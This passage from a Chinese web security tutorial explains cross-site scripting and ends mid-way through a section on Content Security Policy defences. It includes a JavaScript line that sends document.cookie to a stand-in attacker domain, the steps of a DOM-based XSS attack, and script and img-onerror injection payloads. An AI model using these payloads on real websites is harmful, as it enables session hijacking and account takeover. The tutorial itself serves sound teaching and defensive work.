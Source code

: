 ```js
var i = new Image();
i.src = "http://wahh-attacker.com/" + document.cookie;
```

这段代码可让用户浏览器向 wahh-attacker.com（攻击者拥有的一个域）提出一个请求。请求中包含用户访问应用程序的当前会话令牌

攻击者监控访问 wahh-attacker.com 的请求并收到用户的请求。攻击者使用截获的令牌劫持用户的会话，从而访问该用户的个人信息，并"代表"该用户执行任意操作

浏览器不允许任何旧有脚本访问一个站点的 cookie，否则，会话就很容易被劫持。而且，只有发布 cookie 的站点能够访问这些 cookie： 仅在返回发布站点的 HTTP 请求中提交 cookie；只有通过该站点返回的页面所包含或加载的 JavaScript 才能访问 cookie。因此，如果 wahh-attacker.com 上的一段脚本查询 document. cookie，它将无法获得 wahh-app.com 发布的 cookie，劫持攻击也不会成功。

利用 XSS 漏洞的攻击之所以取得成功，是因为攻击者的恶意 JavaScript 是由 wahh-app.com 送交给它的。和从 wahh-app.com 收到的任何 JavaScript 一样，浏览器执行这段脚本，因为用户信任 wahh-app.com。这也就是为何攻击的脚本能够访问 wahh-app.com 发布的 cookie 的原因，虽然它实际来自其他地方。这也是为何该漏洞被称作跨站点脚本的原因

一个域的页面可从另一个域加载一段脚本，并在自己的域内执行这段脚本。这是因为脚本被假定包含代码而非数据，因此跨域访问并不会泄露任何敏感信息。如上所述，在某些情况下，这种假设被违反了，从而导致跨域攻击。

一个域的页面不能读取或修改属于另一个域的 cookie 或其他 DOM 数据（如上例所述）。

**3）DOM 型 XSS 的攻击步骤：**

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. ⽤户打开带有恶意代码的 URL。
3. ⽤户浏览器接收到响应后解析执⾏，前端 JavaScript 取出 URL 中的恶意代码并执⾏。
4. 恶意代码窃取⽤户数据并发送到攻击者的⽹站，或者冒充⽤户的⾏为，调⽤⽬标⽹站接⼝执⾏攻击者指定的操作。

基于`DOM`的型`XSS`漏洞类似于反射型`XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的`Js` ，利用`<script>`、`<img>`等标签允许跨域请求资源。
经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即触发`XSS`，传递`cookie`与后台管理地址后就可以登录到后台了。

```js
<script scr="js_url"></script>
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执⾏恶意代码由浏览器端完成，属于前端 JavaScript ⾃身的安全漏洞，⽽其他两种 XSS 都属于服务端的安全漏洞。

可以看到 XSS 危害如此之大， 那么在开发网站时就要做好防御措施，具体措施如下：

- 可以从浏览器的执行来进行预防，一种是使用纯前端的方式，不用服务器端拼接后返回（不使用服务端渲染）。另一种是对需要插入到 HTML 中的代码做好充分的转义。对于 DOM 型的攻击，主要是前端脚本的不可靠而造成的，对于数据获取渲染和字符串拼接的时候应该对可能出现的恶意代码情况进行判断。
- 使用 CSP ，CSP 的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行，从而防止恶意代码的注入攻击。

> 1. CSP 指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截由浏览器自己来实现。
> 2. 通常有两种方式来开启 CSP，一种是设置 HTTP 首部中的 Content-Security-Policy，一种是设置 meta 标签的方式

设置 `HTTP Header` 中的 `Content-Security-Policy`

设置 `meta` 标签的方式 `<meta http-equiv="Content-Security-Policy">`

设置 `HTTP Header` 来举例

**只允许加载本站资源**

```js
Content-Security-Policy: default-src ‘self’
```

**只允许加载 HTTPS 协议图片**
